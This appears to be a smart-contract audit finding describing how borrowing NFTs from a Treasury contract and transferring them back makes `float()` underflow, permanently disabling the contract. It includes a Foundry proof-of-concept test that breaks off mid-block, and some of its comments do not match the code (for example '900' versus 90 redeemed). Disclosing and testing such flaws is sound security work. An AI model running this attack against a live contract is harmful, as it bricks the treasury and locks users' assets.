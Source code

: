 When an NFT is borrowed, `itemsLoaned` is incremented so that it compensates for the `treasurySupply_` that gets decremented. That way, the `float()` stays the same unless the loan expires.

However, there is a way that this mechanism can be abused. An adversary can take a loan for `N` amount of NFTs and then "donate" them (transfer directly) back to the treasury address. That way, the `itemsLoaned` will maintain the incremented value until the loan expires, but the `treasurySupply_` will increase as well similar to the double-spending problem.

If an adversary manages to take `N` loans where `N = totalSupply_ - treasurySupply_ + 1`, they can effectively DoS the whole Treasury contract by causing the `float()` to always revert due to underflow. Since this function is used in all external functions, the contract will become permanently bricked.

**Proof of Concept:**

The full PoC for this finding can be found at [\textit{this link}](https://gist.github.com/gogotheauditor/543c3373c5309ede519067b010bd08ef).

```solidity
function test_Proof_of_Concept_H1() external {
    _helperDealWETH(address(this), 55e18);
    weth.approve(address(treasury), 55e18);

    // 1. We mint all NFTs from the NTLC collection and become holders.
    _helperMintNTLC(users, 100);

    // 2. 900 NFTs are redeemed for their real floor value using the Treasury contract.
    vm.startPrank(users);
    for (uint256 i = 0; i < 90; i++) {
        collection.approve(address(treasury), i);
        treasury.redeemItem(i);
    }
    vm.stopPrank();

    assertEq(treasury.float(), 100 - 90);
    assertEq(collection.balanceOf(address(treasury)), 90);

    // 3. We take loans for 14 NFTs for 10 years.
    for (uint256 i = 0; i < 14; i++) {
        treasury.loanItem(i, 10 * 365 days);
    }

    // 4. We "donate" 12 of the borrowed NFT to the treasury so that
    //   `float()` reverts due to underflow.
    for (uint256 i = 0; i < 12; i++) {
        collection.transferFrom(address(this), address(treasury), i);
    }

    // 5.Check that all functions are now DoS-ed.
    vm.expectRevert(stdError.arithmeticError);
    treasury.float();

    vm.expectRevert(stdError.arithmeticError);
    treasury.realFloorValue();

    vm.expectRevert(stdError.arithmeticError);
    treasury.addToBacking(1);

    vm.expectRevert(stdError.arithmeticError);
    vm.prank(users);
    treasury.redeemItem(99);

    vm.expectRevert(stdError.arithmeticError);
    treasury.purchaseItem(14);

    vm.expectRevert(stdError.arithmeticError);
```